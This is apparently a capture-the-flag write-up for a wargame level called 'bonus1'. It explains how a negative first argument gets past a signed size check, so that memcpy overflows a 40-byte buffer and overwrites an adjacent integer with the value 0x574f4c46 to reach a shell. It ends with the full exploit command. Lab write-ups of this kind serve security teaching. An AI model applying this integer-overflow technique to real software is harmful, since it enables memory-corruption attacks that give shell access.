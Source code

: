 # Overflow Integer

## Context

There is a integer = to atoi(argv[1]). 

if this integer is minus than 10, it memcpy into a buffer[40] above the integer, writing argv[2], size of atoi(argv[1] * 4). The idea is to buffer overflow the buffer to overwrite the integer.

Because if it is equal to 0x574f4c46. it spawn a shell.

Problem, we can write more than 36 byte with argv[1] = "9".

## Exploit 

Lets try negatif values !

Memcpy(), take a unsigned int, so it convert our value to an usigned value.

`./bonus1 -1` read 0xfffffffc value (toooooo much)

We want the programm read 44 value (0x2c) (40 offset + overwrite int).

`./bonus1 -2147483646` read 0x8

We're close, it tryed find the good one and finish with `-2147483637`

Now were down with this challenge.

```bash
./bonus1 -2147483637 $(python2.7 -c 'print("A" * 40 + "\x46\x4c\x4f\x57")') 
```